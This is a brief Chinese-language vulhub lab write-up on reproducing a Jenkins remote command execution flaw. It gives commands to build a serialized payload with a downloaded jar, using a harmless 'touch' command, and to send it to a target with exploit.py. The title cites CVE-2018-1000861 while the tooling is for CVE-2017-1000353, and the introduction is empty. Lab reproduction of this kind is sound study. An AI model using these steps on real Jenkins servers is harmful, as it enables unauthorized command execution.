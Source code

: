 # Jenkins远程命令执行漏洞（CVE-2018-1000861）

###### by ADummy

### 0x00利用路线

​			反序列化生成ser文件--->现有poc直接发送

### 0x01漏洞介绍

​			

### 0x 02漏洞复现

### 步骤一、生成序列化字符串

参考https://github.com/vulhub/CVE-2017-1000353，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。

### 步骤二、发送数据包，执行命令

下载[exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![Jenkins_CI_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Jenkins_CI_RCE_1.jpg)









